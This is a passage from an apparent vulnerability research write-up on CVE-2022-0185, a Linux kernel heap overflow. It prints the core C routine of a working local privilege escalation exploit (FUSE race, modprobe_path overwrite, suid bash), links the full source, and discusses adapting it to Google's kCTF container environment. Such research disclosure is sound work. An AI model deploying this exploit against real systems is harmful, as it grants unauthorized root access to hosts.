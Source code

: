 One last thing with this exploit… where do we target? For the exploit simplicity’s sake, we only targeted `modprobe_path` (the classic `modprobe_path` kernel pwning trick) for our Ubuntu LPE exploits. We overwrote it with the path to a script that made /bin/bash suid, and this script will trigger with root privileges whenever anyone attempts to run a binary with an invalid header. Here is our Ubuntu LPE exploit so far:

void do_win() { int size = 0x1000; char buffer[0x2000] = {0}; char pat[0x1000] = {0}; msg* message = (msg*)buffer; memset(buffer, 0x44, sizeof(buffer)); void *evil_page = mmap((void *)0x1337000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0); uint64_t race_page = 0x1338000; msg *rooter = (msg *)(race_page-0x8); rooter->mtype = 1; size = 0x1010; int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(target, message, size - 0x30, 0); puts("[*] Opening ext4 filesystem"); fd = fsopen("ext4", 0); if (fd < 0) { puts("Opening"); exit(-1); } puts("[*] Overflowing..."); strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); for (int i = 0; i < 117; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); } puts("[*] Prepaing fault handlers via FUSE"); int evil_fd = open("evil/evil", O_RDWR); if (evil_fd < 0) { perror("evil fd failed"); exit(-1); } if ((mmap((void *)0x1338000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, evil_fd, 0)) != (void *)0x1338000) { perror("mmap fail fuse 1"); exit(-1); } pthread_t thread; int race = pthread_create(&thread, NULL, arb_write, NULL); if(race != 0) { perror("can't setup threads for race"); } send_msg(target, rooter, size - 0x30, 0); pthread_join(thread, NULL); munmap((void *)0x1337000, 0x1000); munmap((void *)0x1338000, 0x1000); close(evil_fd); close(fd); }

You can find the full link to our exploit here: [https://github.com/Crusaders-of-Rust/CVE-2022-0185/blob/master/exploit_fuse.c](https://github.com/Crusaders-of-Rust/CVE-2022-0185/blob/master/exploit_fuse.c); it can be easily adjusted for any kernel versions above 5.7, and the spray will need to be reworked for even older versions. Now with /bin/bash as suid, the exploit will finish. As any low privileged user with access to bash, one can just run it with the -p argument to achieve root privileges! All in all, a really simple (and reliable) exploit using techniques discovered in the CTF world.

Having an Ubuntu LPE is great and all, but what we really wanted to try was the Google kCTF VRP program for their bounty. The money would be great, and ~an exploit in a hardened environment will be quite useful during CTFs.~ They offered two challenges: kctf and fullchain. kctf is where you root the container to read the container’s root flag, and fullchain is where you root the container, escape to host, and then read the root flag of another container. Fullchain is the goal.

There were many issues early on. For one, the /dev folder was barebones, so fuse and other favorite kernel exploit structures like `tty_struct` were unavailable. Userfaultfd was of course be disabled, and the kernel heap in the 4k slab seemed to have had many structures as well (the heap behaved more actively in this container environment in general for the slabs I targeted) - this required better spraying strategies to help with stability.

One more important issue is in regards to the `GFP_KERNEL_ACCOUNT` flag. Accounting flag is usually reserved for objects with data from userland - famous structures like `msg_msg` are all allocated with them. Before 5.9, the kernel placed accounted objects in separate slabs, but this only takes affect with the `CONFIG_MEMCG_KMEM` compilation option… another case of an upgrade making exploits easier.

How does the above issue affect our exploit? Shouldn’t the legacy data allocations also have the accounting flags based on its purpose in documentation? Well, it should, but it seems like kernel developers forgot about this until a [recent commit for 5.16](https://github.com/torvalds/linux/commit/bb902cb47cf93b33cd92b3b7a4019330a03ef57f#diff-c4a9ea83de4a42a0d1bcbaf1f03ce35188f38da4987e0e7a52aae7f04de14a05). This means that `msg_msg` would not be able to be abused on the kctf infrastructure Google hosted, which was on 5.4, and we would have to look for a new structure, either through a lot of source reading or CodeQL. We were lucky as it was around this time that an update for kctf was almost complete where Kubernetes running on a 5.10 kernel would be available (hence the creation of kctf.vrp2.ctfcompetition.com), so we just ended up targeting this one to save time.
